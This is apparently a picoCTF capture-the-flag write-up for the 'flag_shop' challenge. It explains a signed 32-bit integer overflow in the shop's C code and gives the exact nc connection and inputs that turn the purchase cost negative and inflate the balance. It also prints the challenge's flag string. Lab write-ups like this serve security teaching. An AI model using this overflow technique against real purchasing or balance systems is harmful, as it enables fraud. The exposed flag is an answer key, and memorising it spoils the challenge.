 # flag_shop – picoCTF Write-up

---

## Description

> There's a flag shop selling stuff. Can you buy a flag?  
> You're given the binary source of a C program and must connect via:
>
> `nc jupiter.challenges.picoctf.org 44566`
>
> **Hint:** "Two's complement can do some weird things when numbers get really big!"

---

## Solution

You start with **$1100**, and the real flag costs **$100,000**, which seems impossible.  
But there's a **cheaper item**: fake flags that cost **$900 each**. This is where the vulnerability lies.

Looking at the source code:
```c
int total_cost = 0;
total_cost = 900 * number_flags;
if(total_cost <= account_balance) {
    account_balance = account_balance - total_cost;
}
```

The variable `total_cost` is a signed 32-bit integer. This means we can exploit it with an **integer overflow**.

---

### Understanding the Overflow

The max value of a signed 32-bit integer is:
```
2147483647
```

To make `total_cost` overflow, we calculate:
```
2147483647 / 900 ≈ 2386092
```

So, if we enter any number **greater than 2386092**, the result of `900 * number_flags` will overflow into a **negative number**.

This tricks the program into **subtracting a negative number**, effectively increasing your balance to a very high number.

---

## Exploit Steps

### Step 1: Connect
```bash
nc jupiter.challenges.picoctf.org 44566
```

---

### Step 2: Overflow the Balance

Input:
```
2               ← Buy Flags
1               ← Choose “Definitely not the flag Flag”
2400000         ← Enter quantity to trigger overflow
```

Expected Output:
```
The final cost is: -X
Your current balance after transaction: 214748XXX
```

✅ You now have billions of dollars.

---

### Step 3: Buy the Real Flag

Input:
```
2               ← Buy Flags
2               ← Choose “1337 Flag”
1               ← Confirm purchase
```

Output:
```
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
```

---

